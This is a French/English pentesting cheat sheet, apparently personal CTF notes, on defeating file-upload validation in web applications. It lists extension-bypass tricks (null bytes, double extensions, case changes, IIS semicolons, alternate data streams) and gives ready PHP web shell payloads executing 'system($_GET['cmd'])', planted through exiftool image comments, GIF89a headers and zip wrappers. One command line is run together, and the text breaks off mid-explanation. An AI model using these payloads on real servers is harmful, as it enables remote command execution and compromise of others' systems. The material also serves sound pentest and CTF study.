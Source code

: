 # File Upload


## exemple de base:


<form action="upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>


## exemple spécifique:

<form method="POST" enctype="multipart/form-data" action="http://challenge01.root-me.org/realiste/ch6/index.php?sl=../adm&adm=1" >
<input type="file" class="file" name="downloads" size="30">
<input type="hidden" name="action" value="upload">
<input type="hidden" name="function" value="downloads">
<input type="submit" class="submit" value="Upload">
</form>

## NULL BYTE:

pour jouer avec les extensions: 
Solution1:  nommer le fichier backdoor.pngA.php puis intercepter avec burp. Dans le code Hexa remplacer le 41 (A) en hexa par 00
Solution2: nommer le fichier backdoor.php%00.png
Remarque: la réussite dépends du code qui tourne coté serveur pour valider le fichier


## MIME TYPE:

lorsqu'on joue avec les extentions verifier que le “content type” correspond
Content-Type: image/png


## PHP getimagesize()

For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
You can do this with gimp or exiftools:

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpgmv file.jpg file.php.jpg

I'm not sure why some tutorials have the php extension first while others have it second. Try both.


## GIF89a; header

GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:

GIF89a;
<?php 
phpinfo(); 
?>

## EXIF

Inserrer du JS dans les metadata

## misc:

• Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
• Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
• Changing letters to capital form file.aSp or file.PHp3
• Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
• Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
• Upload a file with 2 extensions—> file.php.jpg
• Use of null character—> file.asp%00.jpg
• Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
• Combination of the above


## ZIP:


Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. This wrapper isn't enabled by default and can be installed with the command below:
apt install phpX.Y-zip
Follow the steps below to create a malicious archive.
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
Next, copy malicious.zip to the webroot to simulate the upload. The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request. For example, the URL below can be used to include exec.php and then execute code using the cmd parameter.
   






